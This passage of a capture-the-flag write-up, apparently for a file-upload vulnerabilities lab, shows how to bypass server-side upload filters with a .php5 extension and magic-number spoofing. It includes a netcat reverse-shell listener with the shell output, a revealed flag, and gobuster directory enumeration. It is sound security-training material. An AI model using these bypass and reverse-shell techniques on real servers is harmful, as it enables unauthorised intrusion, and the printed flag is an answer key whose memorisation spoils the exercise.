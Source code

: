 ```bash
Use "help" for a list of commands
$ select
$ upload
```

or we can also do .jpg.png and do the reverse shell etc like the previous challenge

for this particular challenge after trial and error .php5 is the extension
then upload, go to /privacy
then start netcat listener then /privacy/filename
and the listener has a reverse shell
```bash
$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.17.97.222] from (UNKNOWN) [10.10.71.56] 33914
Linux a2b9a5609bd8 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:46:39 up 5 min,  0 users,  load average: 0.19, 1.46, 0.89
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cat /var/www/flag.txt
THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}
```
**FLAG - `THM{MGEyYzJiYmI3ODIyM2FlNTNkNjZjYjFl}`**

## Bypassing Server-Side Filtering: Magic Numbers
basically we will be appending 4 AAAAs to the beginning of the php file and open them in a hex editor and change it such that the first 4 AAAAs change to the file signature of the accepted file type and deceive the website

let's run gobuster on it
```bash
$ gobuster dir -u http://magic.uploadvulns.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://magic.uploadvulns.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/graphics             (Status: 301) [Size: 333] [--> http://magic.uploadvulns.thm/graphics/]
/assets               (Status: 301) [Size: 331] [--> http://magic.uploadvulns.thm/assets/]
```
